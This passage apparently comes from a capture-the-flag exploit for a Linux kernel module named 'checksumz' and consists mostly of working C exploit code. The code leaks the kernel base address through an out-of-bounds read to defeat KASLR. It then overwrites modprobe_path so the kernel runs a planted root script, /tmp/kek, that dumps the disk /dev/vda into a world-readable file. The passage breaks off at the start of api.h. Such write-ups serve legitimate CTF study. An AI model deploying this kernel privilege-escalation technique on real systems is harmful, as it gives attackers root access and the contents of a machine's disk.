 ```c
            printf("off(-): 0x%llx\n", i);
            content_addr = leak_name + i;
            break;
        }
    }

    printf("{+} buffer->content: 0x%8lx\n", content_addr);
    uint64_t cpu_entry_area = 0xfffffe0000000004;
    // read cpu_entry_area
    lseek(fd, (off_t)(cpu_entry_area - content_addr), SEEK_SET);
    uint64_t kaslr_leak = 0;
    read(fd, &kaslr_leak, 8);

    printf("{+} KASLR leak: 0x%08llx\n", kaslr_leak);
    uint64_t kaslr_base = kaslr_leak - 0x1008e00;
    printf("{+} KASLR base: 0x%08llx\n", kaslr_base);
    relative_addr = content_addr;

    return kaslr_base;
};

int main() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    int fd = open("/dev/checksumz", O_RDWR);
    uint64_t KASLR = try_break_kaslr(fd);
    if (KASLR == -1 || ((KASLR & 0xfffff) != 0)) {
        puts("kaslr invalid!");
        return 0;
    }
    uint64_t modeprobe = KASLR + 0x1b3f100;

    int trig_fd = open("/tmp/kek", O_RDWR | O_CREAT);
    write(trig_fd, "#!/bin/sh\ncat /dev/vda>/f\nchmod 777 f\n", 39);
    close(trig_fd);
    system("chmod 777 /tmp/kek");

    printf("{+} modeprobe_path: 0x%08llx\n", modeprobe);
    lseek(fd, (off_t)(modeprobe - relative_addr), SEEK_SET);
    write(fd, "/tmp/kek", 12);
    
    trig_fd = open("pek", O_RDWR | O_CREAT);
    write(trig_fd, "\xde\xad\xbe\xef", 4);
    close(trig_fd);

    system("chmod 777 ./pek; ./pek;");
}
```
api.h
```c
#ifndef CHECKSUMZ_API_H
#define CHECKSUMZ_API_H
/* You may want to include this from userspace code, since this describes the valid ioctls */

#include <sys/types.h>
#ifdef __KERNEL__
#include <linux/types.h>
#include <linux/ioctl.h>
#else /* !__KERNEL__ */
#include <stddef.h>
#include <sys/ioctl.h>
```